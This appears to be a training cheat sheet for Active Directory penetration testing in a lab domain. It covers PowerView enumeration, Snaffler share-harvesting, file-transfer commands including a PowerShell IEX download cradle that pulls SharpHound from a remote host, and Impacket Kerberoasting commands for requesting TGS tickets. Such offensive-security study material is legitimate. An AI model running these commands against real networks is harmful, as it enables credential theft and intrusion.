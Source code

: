 | `Get-DomainPolicy`                                           | PowerView script used to return the default domain policy or the domain controller policy for the current domain. Performed from a Windows-based host. |
| `Get-NetLocalGroup`                                          | PowerView script used to  enumerate local groups on a local or remote machine. Performed from a Windows-based host. |
| `Get-NetLocalGroupMember`                                    | PowerView script enumerate members of a specific local group. Performed from a Windows-based host. |
| `Get-NetShare`                                               | PowerView script used to return a list of open shares on a local (or a remote) machine. Performed from a Windows-based host. |
| `Get-NetSession`                                             | PowerView script used to return session information for the local (or a remote) machine. Performed from a Windows-based host. |
| `Test-AdminAccess`                                           | PowerView script used to test if the current user has administrative access to the local (or a remote) machine. Performed from a Windows-based host. |
| `Find-DomainUserLocation`                                    | PowerView script used to find machines where specific users are logged into. Performed from a Windows-based host. |
| `Find-DomainShare`                                           | PowerView script used to find reachable shares on domain machines. Performed from a Windows-based host. |
| `Find-InterestingDomainShareFile`                            | PowerView script that searches for files matching specific criteria on readable shares in the domain. Performed from a Windows-based host. |
| `Find-LocalAdminAccess`                                      | PowerView script used to find machines on the local domain where the current user has local administrator access Performed from a Windows-based host. |
| `Get-DomainTrust`                                            | PowerView script that returns domain trusts for the current domain or a specified domain. Performed from a Windows-based host. |
| `Get-ForestTrust`                                            | PowerView script that returns all forest trusts for the current forest or a specified forest. Performed from a Windows-based host. |
| `Get-DomainForeignUser`                                      | PowerView script that enumerates users who are in groups outside of the user's domain. Performed from a Windows-based host. |
| `Get-DomainForeignGroupMember`                               | PowerView script that enumerates groups with users outside of the group's domain and returns each foreign member. Performed from a Windows-based host. |
| `Get-DomainTrustMapping`                                     | PowerView script that enumerates all trusts for current domain and any others seen. Performed from a Windows-based host. |
| `Get-DomainGroupMember -Identity "Domain Admins" -Recurse`   | PowerView script used to list all the members of a target group (`"Domain Admins"`) through the use of the recurse option (`-Recurse`). Performed from a Windows-based host. |
| `Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName` | PowerView script used to find users on the target Windows domain that have the `Service Principal Name` set. Performed from a Windows-based host. |
| `.\Snaffler.exe  -d INLANEFREIGHT.LOCAL -s -v data`          | Runs a tool called `Snaffler` against a target Windows domain that finds various kinds of data in shares that the compromised account has access to. Performed from a Windows-based host. |

# Transfering Files

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `sudo python3 -m http.server 8001`                           | Starts a python web server for quick hosting of files. Performed from a Linux-basd host. |
| `"IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"` | PowerShell one-liner used to download a file from a web server. Performed from a Windows-based host. |
| `impacket-smbserver -ip 172.16.5.x -smb2support -username user -password password shared /home/administrator/Downloads/` | Starts a impacket `SMB` server for quick hosting of a file. Performed from a Windows-based host. |



# Kerberoasting 

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `sudo python3 -m pip install .`                              | Used to install Impacket from inside the directory that gets cloned to the attack host. Performed from a Linux-based host. |
| `GetUserSPNs.py -h`                                          | Impacket tool used to display the options and functionality of `GetUserSPNs.py` from a Linux-based host. |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday` | Impacket tool used to get a list of `SPNs` on the target Windows domain from  a Linux-based host. |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request` | Impacket tool used to download/request (`-request`) all TGS tickets for offline processing from a Linux-based host. |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev` | Impacket tool used to download/request (`-request-user`) a TGS ticket for a specific user account (`sqldev`) from a Linux-based host. |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request-user sqldev -outputfile sqldev_tgs` | Impacket tool used to download/request a TGS ticket for a specific user account and write the ticket to a file (`-outputfile sqldev_tgs`) linux-based host. |